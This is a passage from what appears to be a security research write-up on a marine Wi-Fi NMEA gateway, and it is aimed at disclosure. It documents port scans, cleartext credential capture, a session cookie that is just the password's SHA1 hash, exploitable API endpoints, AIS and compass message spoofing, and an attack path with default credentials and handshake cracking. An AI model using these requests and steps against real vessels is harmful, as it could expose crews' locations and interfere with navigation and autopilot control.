AP MAC: %02x:%02x:%02x:%02x:%02x:%02x
IP: %d.%d.%d.%d
IP: -none-
?%02i:%02i:%02i.%03i
0123456789ABCDEF
+----------+-------+--------+--------+-------+--------+--------+
|0x%08lx|B %5i|NB %5i|PB %5i|Z %5i|NF %5i|PF %5i|
|0x%08lx|B %5i|NB %5i|PB %5i|Z %5u|NF %5i|PF %5i|
|0x%08lx|B %5i|NB %5i|PB %5i|Z %5u|
Total Entries %5i    Used Entries %5i    Free Entries %5i
Total Blocks  %5i    Used Blocks  %5i    Free Blocks  %5i
+--------------------------------------------------------------+
heap integrity broken: too large next free num: %d (in block %d, addr 0x%lx)
heap integrity broken: free links don't match: %d -> %d, but %d -> %d
heap integrity broken: too large next block num: %d (in block %d, addr 0x%lx)
heap integrity broken: mask wrong at addr 0x%lx: n=0x%x, p=0x%x
heap integrity broken: next block %d is before prev this one (in block %d, addr 0x%lx)
heap integrity broken: block links don't match: %d -> %d, but %d -> %d
Heap Corruption!
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/mac
%02X
%02x
VER2
%6,7,8/7
RNJD@8
|8|9|:|;|<|=|x|y|z|{|||}|
RNJD@8
YDWG
12345678
ESP_DE833A
```

This gives us a lot of information about the device, including the version number, the default password, and the web interface endpoints... our next step is to try to connect to the device, and see if we can get any data out of it.

---

### 1.3 Network Scanning

```
nmap.exe --top-ports 1000 -Pn 192.168.4.1
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-24 14:17 Mountain Daylight Time
Nmap scan report for 192.168.4.1
Host is up (0.0054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 4E:EB:D6:DE:83:3A (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.20 seconds
```
After connecting the device to the network as a client:
```
Nmap scan report for 192.168.10.71
Host is up (0.0063s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE    SERVICE
80/tcp    open     http
490/tcp   filtered micom-pfs
1456/tcp  open     dca
1458/tcp  open     nrcabq-lm
20178/tcp filtered unknown
25715/tcp filtered unknown
36412/tcp filtered unknown
54978/tcp filtered unknown
61439/tcp filtered netprowler-manager
MAC Address: 4C:EB:D6:86:BA:CC (Espressif)
```

As an attacker, we could identify the two ports mentioned on the documentation (1456 is default NMEA 0183 TX), and ncat to the device to see if we can get any data out of it:

```
ncat.exe 192.168.10.71 1456
$PCDIN,01F211,003A0605,6F,00475D64070000FF*53
$MXPGN,01F211,686F,00475D64070000FF*1C
$PCDIN,01F211,003A0FD3,6F,00475D64070000FF*51
$MXPGN,01F211,686F,00475D64070000FF*1C
$PCDIN,01F211,003A19A2,6F,00475D64070000FF*2B
$MXPGN,01F211,686F,00475D64070000FF*1C
$PCDIN,01F211,003A2370,6F,00475D64070000FF*56
$MXPGN,01F211,686F,00475D64070000FF*1C
```

If the user has set this port as bidirectional (TX/RX), we can even send data to the device, and after it receives the data, it will send it out on the N2K bus. 

> Note: in order to command an autopilot, the user must set the port to bidirectional.

## 2. Exploitation and Vulnerabilities

### 2.1 NMEA 0183 Spoofing

> As mentioned in chapter `IV. Configuration of Application Protocols` the YDGW-02 "With the factory settings, Gateway has the Server #1 enabled and pre-configured to
use TCP port 1456 and the NMEA 0183 data protocol.."

This means by default we gain access to **unencrypted** NMEA 0183 data that can be exfiltrated. This data can contain things like positioning, gps data, navigation info, wind and weather, heading and compass, and AIS target info. However, it's not completely insecure by default. You cannot send data to the device, unless the user has set the device to bidirectional communication. Still this is very likely, as the documentation states, `"Note that Gateway server port must be configured to work in both directions («Transmit
Only» in factory settings) to allow control of autopilot from the application."`. 

If any other servers are turned on, data can be sent or received, **completely unauthenticated**, based on the configuration by the user.

An example of what was used to send data to the device can be seen in the [test-nmea0183spoofer.sh](./assets/software/test-nmea0183spoofer.sh) file. The device converts the messages to NMEA 2000, and sends them out on the CAN bus, as seen in the [test-nmea0183spoofer.sh-results.txt](./assets/software/logs/test-nmea0183spoofer.sh-results.txt) file. You can see that the source address stays the same (0x43) but is still dynamically changed, and is currently considered undeterministic.

Another script is also used to extensively test the TCP port on 1456, and it is called [nmea0183-demo.sh](./assets/software/nmea0183-demo.sh). A converted output of the candump log can be seen in the [canboat-output-0183.txt](./assets/software/logs/canboat-output-0183.txt) file.

```
1970-01-01-00:00:20.347 4  67 255 129038 AIS Class A Position Report:  Message ID = Scheduled Class A position report; Repeat Indicator = Initial; User ID = "244698076"; Longitude = 19.9172333; Latitude = 51.2296366; Position Accuracy = High; RAIM = not in use; Time Stamp = 48; COG = 110.7 deg; SOG = 0.00 m/s; Communication State = 00 00 00; AIS Transceiver information = Channel A VDL reception; Heading = Unknown; Rate of Turn = 0.000 deg/s; Nav Status = Under way using engine; Special Maneuver Indicator = Not available; Sequence ID = Unknown
```

> Note: This was parsed using canboat's analyzer tool. 


This video demonstrates the spoofing of messages to the MFD (Multi-Function Display) on the N2K bus, using our testing port 1456 on the YDWG-02. Thus we are able to remotely control the MFD from a device within the RSSI (Radio Signal Strength Indicator) of the YDWG-02.

We just spoofed an AIS message from setting the port (1456) to bidirectional N2K / 0183 on the YDWG, which is widely used in the maritime industry for tracking vessels, and is used by the US Coast Guard to track vessels in the area.

## 2.2 NMEA 2000 Spoofing

If the user also turns on bidirectional communication on the n2k bus. This means we can send any arbitrary message to the bus, given the source address of the YDWG-02. 

As a reminder, these ports are **NOT encrypted, or authenticated in any form**. This means that any attacker with access to the network can send arbitrary messages to the bus, and potentially spoof the devices on the bus (which was proven from the [nmea2k-compass-spoofer.sh](./assets/software/nmea2k-compass-spoofer.sh) file).

---

### 2.3 Web Application Analysis

The web application is hosted on port 80 (unencrypted HTTP). More information about the web application was found through analysis of the firmware update mechanisms (see [./assets/pcap](./assets/pcap/) and the extracted contents of the firmware file [./assets/binwalk/_flash_contents.bin.extracted](./assets/binwalk/_flash_contents.bin.extracted)).

#### 2.3.1 Burp Suite

Some of the analysis was done using the device as an AP, and some of the analysis was done using the device as a client. If the device is in AP mode, the device is technically more secure, but in client mode, if the device is connected to a public wifi network, it is **much more** vulnerable to attacks, as shown in the following sections.

#### 2.3.1.1 Authentication Bypass

After loging into the YDGW gateway, we can see cleartext credentials pass through an HTTP request, handled by AJAX:

```http
POST /login?1=1&login=admin&password=admin HTTP/1.1
Host: 192.168.4.1
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.4.1
Referer: http://192.168.4.1/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

This means we can easily spin up wireshark, and capture the traffic to see the credentials in cleartext.

which is handled by the following JavaScript:
```javascript
function login(e){
	e.preventDefault();
    var url = "/login?1=1";

    url += "&login=" + $("#login").value.trim().toLowerCase();
    url += "&password=" + $("#password").value.trim();
    var r = findGetParameter("r");    

    var button = $("#login-button");
    addClass(button, "pure-button-disabled");

    ajaxReq("POST", url, function (resp) {
        removeClass(button, "pure-button-disabled");
        if(r !== null)
        	window.location = r
        else
        	window.location = "/home.html"
    }, function (s, st) {
        showWarning("Invalid credentials");
        removeClass(button, "pure-button-disabled");
    });
}
```

We could also possibly brute force the credentials, and gain access to the device. As a reminder the default credentials are `admin:admin` in the web application.

#### 2.3.1.2 Sniffing Access Point Credentials

Given we are connected to the same network as the YDWG-02, we can see the credentials for the access point in cleartext, and we can also see that the device is using a weak password (123456578).

```http
POST /wifi/apchange?100=1&ap_ssid=YDWG&ap_password=123456578&ap_authmode=4&ap_hidden=0 HTTP/1.1
Host: 192.168.4.1
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.4.1
Referer: http://192.168.4.1/point.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
which is handled by the following JavaScript:
```javascript
function changeApSettings(e) {
  e.preventDefault();
  var url = "/wifi/apchange?100=1";
  var i, inputs = document.querySelectorAll("#" + e.target.id + " input,select");
  for (i = 0; i < inputs.length; i++) {
    if (inputs[i].type == "checkbox") {
      var val = (inputs[i].checked) ? 1 : 0;
      url += "&" + inputs[i].name + "=" + val;
    } else {
      var clean = inputs[i].value.replace(/[^!-~]/g, "");
      var comp = clean.localeCompare(inputs[i].value);
      if ( comp != 0 ){
        showWarning("Invalid characters in " + specials[inputs[i].name]);
        return;
      }
      url += "&" + inputs[i].name + "=" + clean;
    }
  };
```

Let's say we are connected to the device in AP mode, and we want to connect to a public wifi network (like McDonald's). We can see the credentials for the access point in cleartext.

```http
POST /wifi/connect?essid=<redacted>&passwd=<redacted> HTTP/1.1
Host: 192.168.4.1
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.4.1
Referer: http://192.168.4.1/client.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
which is handled by the following JavaScript:
```javascript
function changeWifiAp(e) {
  e.preventDefault();
  var passwd = $("#wifi-passwd").value;
  var essid = getSelectedEssid();
  showNotification("Connecting to " + essid);
  var url = "/wifi/connect?essid="+encodeURIComponent(essid)+"&passwd="+encodeURIComponent(passwd);

  hideWarning();
  $("#reconnect").setAttribute("hidden", "");
  $("#wifi-passwd").value = "";
  var cb = $("#connect-button");
  var cn = cb.className;
  cb.className += ' pure-button-disabled';
  blockScan = 1;
  ajaxSpin("POST", url, function(resp) {
      $("#spinner").removeAttribute('hidden'); // hack
      showNotification("Waiting for network change...");
      window.scrollTo(0, 0);
      attempts = 0;	
      window.setTimeout(getStatus, 2000);
    }, function(s, st) {
      showWarning("Error switching network: "+st);
      cb.className = cn;
      window.setTimeout(scanAPs, 1000);
    });
}
```

This means that we can easily spin up wireshark, and capture the traffic in the public McDonald's wifi (given the device is setup in client mode), and see the credentials in cleartext. This means the YDWG-02 essentially acts as the MiTM for us to sniff the credentials of other protected networks.

#### Cloud Application

The device can also be configured to send data to a cloud service, which is thought to be unencrypted, and can be intercepted by an attacker on the same network. The cloud service was not tested, and out of the scope for this project, but it is worth mentioning that, from the manufacturer's documentation, that a "secret" link can be created. This link is encrypted, but for example, as simple google search for `"site:cloud.yachtd.com/s/"` gives us access to secret links that expose locations of vessels, and other sensitive information. This could be considered a violation of IDOR (Insecure Direct Object Reference), as the user can access other users' data, and potentially spoof their location.

Nonetheless, the key that is used to for boats on the cloud service is also sent in cleartext, and can be intercepted by an attacker on the same network.

```http
POST /settings/upd_ul?1=1&interval=300&priority=0&dataset=7&range=0&key=Bank$Catamaran^Ghosting^Wash$Lookout*SoX HTTP/1.1
Host: 192.168.10.71
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.10.71
Referer: http://192.168.10.71/logging.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
which is handled by the following JavaScript:
```javascript
function setSettings(e,url) {
    e.preventDefault();
    var i, inputs = document.querySelectorAll("#" + e.target.id + " input,select");
    for (i = 0; i < inputs.length; i++) {
        if (inputs[i].type === "checkbox") {
            var val = (inputs[i].checked) ? 1 : 0;
            url += "&" + inputs[i].id + "=" + val;
        }
	else if (inputs[i].type === "text")
	{
  	    url += "&" + inputs[i].id + "=" + inputs[i].value.trim();
	}
        else
            url += "&" + inputs[i].id + "=" + inputs[i].value;
    };

    hideWarning();
    var n = e.target.id.replace("-form", "");
    var cb = $("#" + n + "-button");
    addClass(cb, "pure-button-disabled");
    ajaxSpin("POST", url, function (resp) {
        showNotification(n + " settings was updated");
        removeClass(cb, "pure-button-disabled");
    }, function (s, st) {
        showWarning("Error: " + st);
        removeClass(cb, "pure-button-disabled");
        window.setTimeout(fetchSettings, 100);
    });
}

function setULSettings(e) {
    var url = "/settings/upd_ul?1=1";
    setSettings(e,url);
    fetchSettings();	
}
```

The following could be used to exfiltrate data from a YDWG-02, or possibly inject data:

```
POST /nmea_settings/update?1=1&ns_enabled0=1&ns_type0=0&ns_protocol0=0&ns_port0=1456&ns_direction0=1&ns_enabled1=0&ns_type1=1&ns_protocol1=1&ns_port1=1457&ns_direction1=3&ns_enabled2=1&ns_type2=0&ns_protocol2=2&ns_port2=1458&ns_direction2=1 HTTP/1.1
Host: 192.168.4.1
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.4.1
Referer: http://192.168.4.1/servers.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive

```

```
GET /settings/logging HTTP/1.1
Host: 192.168.235.25
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://192.168.235.25/logging.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
and
```
HTTP/1.0 200 OK
Server: YDWG
Connection: close
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: application/json

{ "interval": "300", "points" : 16256, "priority" : 0, "dataset" : 7, "distance" : "true", "range" : 0, "key" : "Prolonged_blast$Pilot_boat*Fix~R2ushnLqH", "status" : "2025-05-02 20:42:19 Data uploaded (last point GMT 2024-12-19 21:58:00)", "has_points" : "false"}
```
paired with
```
GET /version HTTP/1.1
Host: 192.168.235.25
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Referer: http://192.168.235.25/flash.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
and
```
HTTP/1.0 200 OK
Server: YDWG
Connection: close
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: application/json

{ "version": "1.74", "sn": "00604470", "hardware": "1.00", "build": "43" }
```

The [API vulnerabilities](#2223-api-vulnerabilities) section goes further into this.

### 2.3.2 OWASP ZAP

The OWASP ZAP tool was also used to scan the web application for vulnerabilities. The following vulnerabilities were found after performing [the scan](./assets/web/2025-05-02-ZAP-Report-.html):

#### 2.2.2.1 XSS Vulnerability


Which actually also performs as a sort of DoS attack, since the Javascript shown below, actually continually loops when the user is logging in from the /login.html page.

```javascript
function login(e){
	e.preventDefault();
    var url = "/login?1=1";

    url += "&login=" + $("#login").value.trim().toLowerCase();
    url += "&password=" + $("#password").value.trim();
    var r = findGetParameter("r");    

    var button = $("#login-button");
    addClass(button, "pure-button-disabled");

    ajaxReq("POST", url, function (resp) {
        removeClass(button, "pure-button-disabled");
        if(r !== null)
        	window.location = r
        else
        	window.location = "/home.html"
    }, function (s, st) {
        showWarning("Invalid credentials");
        removeClass(button, "pure-button-disabled");
    });
}
```

#### 2.2.2.2 Clickjacking Vulnerability


This screenshot is simply [an iframe](assets/web/clickjacked.html).

#### 2.2.2.3 API Vulnerabilities

A copy of the APIs exposed, or at least most of them, are base64 encoded in an XML file [here](./assets/web/site-map).

> Note: The `/flash/reboot` endpoint, allows an attacker to remotely reboot the device, causing a denial of service attack. Other endpoints could also be used to change settings on the device, or exfiltrate data. The `/system/rundiag`, allows an attacker to run diagnostics on the marine system, possibly exfiltrating sensitive data. The `/settings/update` or `/settings/run_calibration` endpoint actually bricks the device; meaning everytime this endpoint was hit, I had to hard reset the device. These are only some of the endpoints tested that could be abused by an attacker.

Strings also gives us a list of the endpoints that are available on the device:

```
/login
/menu
/version
/serial/setserial
/filters/getfilters
/filters/setfilter
/admin/changepassword
/flash/upload
/flash/reboot
/flash/lasterror
/websocket/nmea.cgi
/wifi/info
/wifi/scan
/wifi/connect
/wifi/connstatus
/wifi/setmode
/wifi/special
/wifi/apinfo
/wifi/apchange
/system/info
/system/update
/system/rundiag
/cloud/reset
/system/memory
/nmea_settings/settings
/nmea_settings/update
/settings/settings
/nmea_settings/ydap
/settings/update
/settings/upd_ti
/settings/upd_xdr
/settings/logging
/settings/upd_ul
/settings/upd_dl
/settings/upd_li
/settings/run_calibration
/home.html
/client.html
/point.html
/server.html
/admin.html
/flash.html
/setsn.html
/filters.html
```

### 2.3.3 Cookie Injection

The cookies used by the device are not signed, and are used to authenticate the user. This means that we can easily inject a cookie into the request, and gain access to the device. This is just another way we can bypass the authentication, given the use of hashcat to crack the SHA1 hashed password.

```
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
```
So we inject it into the request, and see if we can get a response:

```
POST /admin/changepassword?1=1&password=admin HTTP/1.1
Host: 192.168.10.71
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.10.71
Referer: http://192.168.10.71/admin.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
and we get a 200 OK response, which means that the cookie is valid, and we can use it to perform actions on the device, like changing the admin password:
```
HTTP/1.0 204 OK
Server: YDWG
Connection: close
Set-Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997; path=/; expires=Tue, 7 Apr 2038 12:25:11; 
```
https://shattered.io/ --> this could be succeptible to a hash collision attack, since the cookie is not signed, and the device is using SHA1 (not secure in 2025).

To prove the cookie is the password as a sha1 hash, we can use the following command:
```bash
 echo -n "admin" | sha1sum

d033e22ae348aeb5660fc2140aec35850c4da997  -
```


The password can be seen here as well. 

## 2.4 TCP connection exaustion attacks (SYN flood)

Since the default port is left on as 1456 for NMEA 0183 and 80 for the HTTP, the effects of a TCP flood attack were also tested. The device was not able to effectively prevent either ports as shown below.


> Note: the tcp syn flood of port 80 on the yacht device isn't shown because hping3 takes processing power, and it would be unfair to perform both simultaniously. It is still considered a vulnerability; however, as this could prevent yacht owners, regatta racers, etc., to access crucial data.

## 2.5 Web Sockets

Web seockets are enabled by default:


The Sec-WebSocket-Key
`258EAFA5-E914-47DA-95CA-C5AB0DC85B11` is hardcoded and used to authenticate the connection, and is not encrypted.

---

## 3 Summary

### 3.1 Attack Path (CAPECs)

An attack path example could be as follows:
1. The attacker scans for the device in AP mode
2. If the device is in AP mode:
   1. The attacker connects to the AP using the default password (123456578)
      1. If the default password does not work, the attacker performs a deauth attack, and captures the WPA2 handshake, and cracks the hash using hashcat
3. If the device is in Client mode:
   1. The attacker needs to have access to the same network as the device, or may perform a similar deauth attack
4. The attacker sets up a passive listener on the LAN, and waits for sensitive data to be sent in cleartext (credentials, etc.)
5. The attacker scans for open ports on the device (80, 1456, etc.).
6. If the web application port (80) is open (could be a different port if the user changed it):
   1. The attacker tries to authenticate to the web application using the default credentials (admin:admin)
   2. If the default credentials do not work, the attacker captures the traffic, and looks for credentials being sent in cleartext
7. If any NMEA ports are open (1456, etc.):
   1. The attacker listens for NMEA 0183 or NMEA 2000 traffic
   2. Exfiltrates sensitive data (positioning, gps data, navigation info, wind and weather, heading and compass, AIS target info, etc.)
8. The attacker changes the NMEA port to bidirectional and sends spoofed messages to the device (i.e., spoofing AIS messages to the MFD, sending commands to the autopilot, etc.)

### 3.2 Weakness Enumeration (CWEs)

The following CWEs were found to have more hits on environmental impacts (i.e., more
requirements covered): 
1. CWE-1428: Reliance on HTTP instead of HTTPS 
2. CWE-1391: Use of Weak Credentials
3. CWE-306: Missing Authentication for Critical Function. 
  
After classifying these weaknesses as critical failure points in the security of the YDWG-02, further evaluation
performed on the device proved that each of these threat interfaces (i.e., CWEs) confirmed to be
vulnerabilities and could be exploited to remotely control the operation of a marine vessel. 

A current list of "allowed" CWEs found is in the table below:
| CWE ID  | Name                                      | Trace to YDWG                  |
|---------|-------------------------------------------|--------------------------------|
| [CWE-1428](https://cwe.mitre.org/data/definitions/1428.html) | Reliance on HTTP instead of HTTPS         | ESP8285: Web Application                |
| [CWE-1391](https://cwe.mitre.org/data/definitions/1391.html) | Use of Weak Credentials                   | ESP8285: WiFi Access Point, Web Application |
| [CWE-306](https://cwe.mitre.org/data/definitions/306.html) | Missing Authentication for Critical Function | ESP8285: NMEA Servers              |
| [CWE-79](https://cwe.mitre.org/data/definitions/79.html)  | Cross-Site Scripting (XSS)                | ESP8285: Web Application                |
| [CWE-352](https://cwe.mitre.org/data/definitions/352.html) | Cross-Site Request Forgery (CSRF)         | ESP8285: Web Application                |
| [CWE-405](https://cwe.mitre.org/data/definitions/405.html) | Asymmetric Resource Consumption (Amplification)             | ESP8285: TCP Ports                      |
| [CWE-521](https://cwe.mitre.org/data/definitions/521.html) | Weak Password Requirements                | ESP8285: WiFi Access Point, Web Application |
| [CWE-798](https://cwe.mitre.org/data/definitions/798.html) | Use of Hard-coded Credentials           | ESP8285: Firmware Dump                |
| [CWE-319](https://cwe.mitre.org/data/definitions/319.html) | Cleartext Transmission of Sensitive Information | ESP8285: WiFi Access Point, Web Application, NMEA Servers |
| [CWE-565](https://cwe.mitre.org/data/definitions/565.html) | Reliance on Cookies without Validation or Integrity Checking | ESP8285: Web Application                |
| [CWE-862](https://cwe.mitre.org/data/definitions/862.html) | Missing Authorization                         | ESP8285: NMEA Servers                |
| [CWE-250](https://cwe.mitre.org/data/definitions/250.html) | Execution with Unnecessary Privileges        | ESP8285: NMEA Servers |
| [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html) | Improper Restriction of Rendered UI Layers or Frames | ESP8285: Web Application                |
| [CWE-353](https://cwe.mitre.org/data/definitions/353.html) | Missing Support for Integrity Check | ESP8285: NMEA Servers                |
| [CWE-2016](https://cwe.mitre.org/data/definitions/2016.html) | Insertion of Sensitive Information Into Sent Data | ESP8285: Web Application, NMEA Servers                |
| [CWE-639](https://cwe.mitre.org/data/definitions/639.html) | Authorization Bypass Through User-Controlled Key | ESP8285: Web Application                |
| [CWE-290](https://cwe.mitre.org/data/definitions/290.html) | Authentication Bypass by Spoofing | ESP8285: Web Application, NMEA Servers                |
| [CWE-312](https://cwe.mitre.org/data/definitions/312.html) | Cleartext Storage of Sensitive Information | ESP8285: Firmware Dump                |
| [CWE-1191](https://cwe.mitre.org/data/definitions/1191.html) | On-Chip Debug and Test Interface With Improper Access Control | ESP8285: Firmware Dump                |

Currently, that is a total of 19 weaknesses that have been found on the YDWG-02 device, that have been proven to be exploitable, and could lead to remote control of a marine vessel.

## 5. Mitigations and Recommendations

Mitigations for the weaknesses can be found on MITRE's website for each CWE. However, a quick fix for the most critical vulnerabilities found are implmented in the [mitigations](./mitigations/) directory.

# FAQ

I want to test this on my own, but the scripts are not working for me.

Try:

```
dos2unix <script_name>
```

Unfortunately, the scripts were written on both linux and windows machines, and git auto converts them.

Any more questions? Submit an issue on the github repo, and I'll aggregate them here as needed.

> All testing was conducted on a device owned by the researcher and isolated from public
infrastructure. Firmware extraction and network fuzzing were performed within a
controlled lab environment. No external services were accessed without authorization. Any
disclosure of findings to the vendor will follow the industry-standard responsible disclosure
timelines and mechanisms.